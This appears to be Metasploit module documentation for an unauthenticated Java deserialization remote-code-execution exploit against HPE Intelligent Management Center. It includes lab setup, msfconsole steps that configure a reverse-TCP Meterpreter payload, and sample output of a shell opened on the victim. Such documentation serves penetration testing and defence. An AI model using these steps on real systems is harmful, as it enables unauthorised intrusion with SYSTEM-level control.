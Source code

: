 ## Vulnerable Application

  The module exploits a RCE bug on vulnerable installations of Hewlett Packard Enterprise Intelligent Management Center. Authentication is not required.

  The specific flaw exists within the `WebDMDebugServlet`, which listens on TCP ports `8080` and `8443` by default. The issue results from the lack of proper validation of user-supplied data, which can result in deserialization of untrusted data. An attacker can leverage this vulnerability to execute arbitrary code in the context of SYSTEM.

  On a Windows machine, download and install a trial version of HPE IMC from here:

  [https://h10145.www1.hpe.com/downloads/DownloadSoftware.aspx?SoftwareReleaseUId=19066&ProductNumber=JG748AAE&lang=&cc=&prodSeriesId=&SaidNumber=](https://h10145.www1.hpe.com/downloads/DownloadSoftware.aspx?SoftwareReleaseUId=19066&ProductNumber=JG748AAE&lang=&cc=&prodSeriesId=&SaidNumber=)

  You need .Net 2.0, but that's the only dependency.

  Make sure to follow any instructions on setting up SSL correctly (certain cipher suites does not play well with the software). These instructions may vary depending on the win version you set it up on. On a Windows Server 2012 R2 I had to disable certain cipher suites. The exploit has been tested on Windows Server 2012 R2 and Windows Server 2008 R2.

## Verification Steps

  A successful check of the exploit will look like this:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/hp_imc_java_deserialize```
  4. Do: ```set RHOSTS <RHOSTS>```
  5. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  6. Do: ```set LHOST <LHOST>```
  7. Do: ```check```
  8. **Verify** that you are seeing `The target is vulnerable.` in console.
  9. Do: ```exploit```
  10. You should get a meterpreter shell.

## Options

### TARGETURI

  Path to the IMC application, the default location is `/imc`.

### SSL

  As set up by default, IMC is vulnerable both over port `8080` and `8443` (SSL). Set this parameter to `true` and change `RPORT` if you'd like to exploit over SSL.

### RPORT

  Set this to the appropriate port, `8080` (default) or `8443`.

## Scenarios

All versions below 7.3 E0504P2 should be vulnerable remotely.

### HPE IMC 7.3 E0504P2

  Here's showing the expected output:

  ```
  msf > exploit

  [*] Started reverse TCP handler on 10.0.0.1:4444 
  [*] Sending serialized Java object (11290 bytes)...
  [*] Sending stage (179779 bytes) to 10.0.0.2
  [*] Meterpreter session 2 opened (10.0.0.1:4444 -> 10.0.0.2:49284) at 2018-11-17 09:43:07 +0100

  meterpreter > sysinfo 
  Computer        : SERVER_NAME
  OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 1
  Meterpreter     : x86/windows
  meterpreter > 
  ```
